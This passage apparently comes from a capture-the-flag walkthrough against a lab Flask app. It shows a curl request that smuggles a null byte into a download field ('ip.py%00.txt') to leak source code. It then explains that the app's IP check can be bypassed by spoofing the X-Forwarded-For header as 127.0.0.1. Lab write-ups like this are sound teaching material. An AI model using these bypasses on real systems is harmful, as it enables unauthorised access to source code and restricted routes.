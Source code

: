 ![debug reject](./pic/debug_res_reject.png)
    
As we could imagine from the script we are not passing this first `ip check`:
```python
import ip # from .

<..SNIP..>

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
```
But since also the ip class is imported from a file in the path, asthe comment sudgest, we can download it with the same trick as before:
```bash
curl -X POST 'http://10.10.198.19:7777/cloud' -d 'download=ip.py%00.txt'
```
output:
```python
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```
The check is pretty easy to bypass in fact we just need to set the HTTP `X-Forwarded-For` header to _127.0.0.1_:
    